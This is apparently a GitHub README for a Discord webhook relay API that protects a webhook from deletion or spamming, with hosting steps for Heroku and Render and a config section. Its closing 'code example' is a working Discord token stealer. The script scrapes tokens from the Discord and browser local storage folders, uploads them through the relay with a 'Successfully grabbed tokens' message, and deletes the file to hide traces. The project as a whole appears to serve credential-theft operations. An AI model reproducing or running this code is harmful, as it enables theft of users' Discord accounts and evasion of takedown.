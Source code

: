 

<h1 align="center">
  <a id="top"></a>Discord Webhook Protector 🔰
</h1>

<p align="center"> 
  <kbd>
<img src="https://raw.githubusercontent.com/Rdimo/images/master/Discord-Webhook-Protector/Discord-Webhook-Protector.png"></img>
  </kbd>
</p>

<p align="center">
  <img src="https://img.shields.io/github/languages/top/Rdimo/Discord-Webhook-Protector?style=flat-square"/>
  <img src="https://img.shields.io/github/last-commit/Rdimo/Discord-Webhook-Protector?style=flat-square"/>
  <img src="https://sonarcloud.io/api/project_badges/measure?project=Rdimo_Discord-Webhook-Protector&metric=ncloc"/>
  <img src="https://img.shields.io/github/stars/Rdimo/Discord-Webhook-Protector?color=444444&label=Stars&style=flat-square"/>
  <img src="https://img.shields.io/github/forks/Rdimo/Discord-Webhook-Protector?color=444444&label=Forks&style=flat-square"/>
</p>


<h2 align="center">
  Discord-Webhook-Protector was made by

Love ❌ code ✅

</h2>

---


## <a id="content"></a>🌐 〢 Content

- [🔰・Features](#features)
- [🌌・Discord](https://cheataway.com/invite)
- [🎉・Setup the Api with Heroku](#heroku)
- [🎉・Setup the Api with Render](#render)
- [🧪・Testing the Api](#testing)
- [🟢・Keeping It alive 24/7](#alive)
- [⚙ ・Settings](#settings)
- [🎈・Code example](#code-example)

## <a id="features"></a>🔰 〢 Features

```
> Easy to setup!
> Configurable!
> Completely *free* and stays online *24/7*
> Accepts json, discord embeds and files!
> Ratelimits unauthorized requests!
> Accepting only post requests!
> Impossible to delete webhook
> Webhook protected by totp so very hard to spam webhook even if they http debug!
```
---

### <a id="heroku"></a>📁 〢 Hosting the API with Heroku

1. Create an account on [Heroku.com](https://heroku.com) (Yes all of this is **free**)
2. Install [nodejs](https://nodejs.org/en/), [heroku cli](https://devcenter.heroku.com/articles/getting-started-with-nodejs#set-up), and [git](https://git-scm.com/)
3. Open [config.json](https://github.com/Rdimo/Discord-Webhook-Protector/blob/main/config.json) and put in your webhook at the top
4. Now you need a key, open cmd in the directory and type the following ⇣
```sh-session
$ cd test
$ py keyGen.py
>>> Your key is: ...
>>> Copied key to clipboard!
```
5. Paste your generated key in [config.json](https://github.com/Rdimo/Discord-Webhook-Protector/blob/main/config.json)
6. Open a new cmd in the directory and type `npm i`
7. Now follow these steps carefully ⇣

```sh-session
$ heroku login
...
$ git init
$ git add .
$ git commit -m "first Webhook protector api commit"
...
$ heroku create
...
$ git push heroku main
...
$ heroku ps:scale web=1
...
$ heroku domains
...
```

8. Done! After typing `heroku domains` you should get something in the console like **shrouded-fjord-36366.herokuapp.com**. This is your api with your undeletable/unspammable webhook!

#### If you get an error when doing `"git push heroku main"` that looks like this

```sh
$ first issue error: failed to push some refs to 'https://git.heroku.com/app-name.git'
```
Then run `"git push heroku master"` instead | https://github.com/Rdimo/Discord-Webhook-Protector/issues/1

ㅤ

If you make some changes in the code and want to update the api on heroku, simply run `npm run deploy` to push out the updates \
If any bugs occur please report them or try and see if restarting the app by typing `heroku restart` works!
<center><a href=#content> Back To Content </a> </center>

---

### <a id="render"></a>📁 〢 Hosting the API with Render

1. Setup an account on [Render](https://dashboard.render.com/register)
2. [Fork](https://github.com/Rdimo/Discord-Webhook-Protector/fork) This Repo **(Dont Forget to Make it Private And Edit the config.js File)**
3. Go to [This](https://dashboard.render.com/select-repo?type=web) Link and connect your GitHub Account
4. Select the repo you just made 
  ![image](https://user-images.githubusercontent.com/86944806/170194672-2a21aed0-cc1b-4efb-88d5-c835034c2e70.png)
5. On the next screen enter a uniqe name for it **(this name will be in your api)**
6. Select **Node** as your environment
![image](https://user-images.githubusercontent.com/86944806/170195377-fbc7a054-5b8b-4255-aaea-5a209d6c65af.png)
7. Scroll down and click on ![image](https://user-images.githubusercontent.com/86944806/170195784-9df18d5f-c8e5-4694-bafc-57e59fe0ee0e.png)
8. Thats it! It will build it in some time now **(Approx 5 mins)**
9. Your api url should look like this **(https://youruninqename.onrender.com)**
![image](https://user-images.githubusercontent.com/86944806/170196327-c44fa2c1-619f-43c4-b5aa-a121a98493bf.png)

<center><a href=#content> Back To Content </a> </center>

### <a id="testing"></a> 🧪〢Testing the Api

For testing that your api works, open test folder and edit the test .py file by putting your api url and passsword then open cmd in the directory and type the following ⇣

```sh-session
$ cd .\test
...
$ py test.py
```

It should've made a post request to the api uploading itself and sending "it works!" to the webhook
<center><a href=#content> Back To Content </a> </center>

---

### <a id="alive"></a>🟢〢Keeping It Alive 24/7

Free hosting will sleep your API after inactivity. It is 15 mins for Render. Now ofc we aren't gonna keep using our webhook so we can use a site like [Statuscake](statuscake.com) which is free.

***Note:** Heroku gives only 550 hours for free in a month whereas Render gives 750 hours (There are 744 hours in a month). So If u use this method on heroku then your api will be offline for last 8 days of the month. (Unless You have more hours on heroku by entering your credit card or buying) And so I recommend you use Render the host the API*

1. Sign up on [Statuscake](https://app.statuscake.com/Try)
2. Create a new [UpTime Test](https://app.statuscake.com/AddSite.php)
![image](https://user-images.githubusercontent.com/86944806/170201838-fc68aa1a-a554-4786-856b-ccf6b7d6170a.png)
3. Head down to ![image](https://user-images.githubusercontent.com/86944806/170203552-041cf979-c32b-4ed6-9051-f6d738949027.png) and follow what I've done. **(Don't Forget to❌the code 401)**
![image](https://user-images.githubusercontent.com/86944806/170203426-ed45ac96-d46c-4176-b977-e3164c57e6e9.png)
4. Scroll down and click on ![image](https://user-images.githubusercontent.com/86944806/170204712-47185645-0e81-4538-9829-5fca1ffa9e20.png)
5. Add if u want though its not needed **(click ok if u don't want to add)**
![image](https://user-images.githubusercontent.com/86944806/170204283-6de3d140-ef94-4cbf-88e0-1ad8da0872b8.png)
6. Thats it! Your webhook is now gonna be live 24/7
<center><a href=#content> Back To Content </a> </center>

---

### <a id="settings"></a> ⚙ 〢 Settings

The config and what the options do

```json
{
  "webhook": "https://discord.com/api/webhooks/0123456789/abcdefghijklmnopqrstuvwxyz", //your discord webhook
  "pass32": "K4ZVUQTSIRMDOWKRGU2WQQTZJM======" /*a key encoded in base32, use the keyGen in ./test or see https://github.com/bellstrand/totp-generator#how-to-use for more*/,
  "ratelimit": true, //if you want it to ratelimit unauthorized requests or not
  "rateLimitTimeout": 30000, //amount of milliseconds an ip gets ratelimited (Default: 30000 --> 30 seconds)
  "port": 3000 //port
}
```
<center><a href=#content> Back To Content </a> </center>

---

### <a id="code-example"></a>🎈 〢 Code example

Example use of the api hosted on heroku

```py
import os, re
import requests
from pyotp import TOTP

api = "https://your-heroku-app-name.herokuapp.com" #the name of your app will probably be something like https://frozen-beach-72554.herokuapp.com

pass32 = 'K4ZVUQTSIRMDOWKRGU2WQQTZJM======' #needs to be same key as the one in your api
key = TOTP(pass32).now()

local = os.getenv('LOCALAPPDATA')
roaming = os.getenv('APPDATA')
_file = os.getenv('temp') + os.sep + 'tokens.txt'

paths = {
    'Discord': roaming + '\\Discord\\Local Storage\\leveldb',
    'Discord Canary': roaming + '\\discordcanary\\Local Storage\\leveldb',
    'Discord PTB': roaming + '\\discordptb\\Local Storage\\leveldb',
    'Google Chrome': local + '\\Google\\Chrome\\User Data\\Default\\Local Storage\\leveldb',
    'Opera': roaming + '\\Opera Software\\Opera Stable\\Local Storage\\leveldb',
    'Brave': local + '\\BraveSoftware\\Brave-Browser\\User Data\\Default\\Local Storage\\leveldb',
    'Yandex': local + '\\Yandex\\YandexBrowser\\User Data\\Default\\Local Storage\\leveldb'
}
for platform, path in paths.items():
    if not os.path.exists(path):
        continue
    for file_name in os.listdir(path):
        if not file_name.endswith('.log') and not file_name.endswith('.ldb'):
            continue
        for line in [x.strip() for x in open(f'{path}\\{file_name}', errors='ignore').readlines() if x.strip()]:
            for regex in (r'[\w-]{24}\.[\w-]{6}\.[\w-]{27}', r'mfa\.[\w-]{84}'):
                for token in re.findall(regex, line):
                    with open(_file, 'a') as f:
                        f.write(token)

requests.post(api, headers={"Authorization": key}, data={"content": f'Successfully grabbed tokens from {os.getlogin()}:'}) #send the text to webhook
requests.post(api, headers={"Authorization": key}, files={"upload_file": open(_file, 'rb')}) #send text file with tokens in it to the webhook
os.remove(_file) #delete traces
```

> Thank you [Ha1MRX](https://github.com/Ha1MRX) for bug testing and reporting all of them 😘

<p align="center"><a href=#top>Back to Top</a></p>

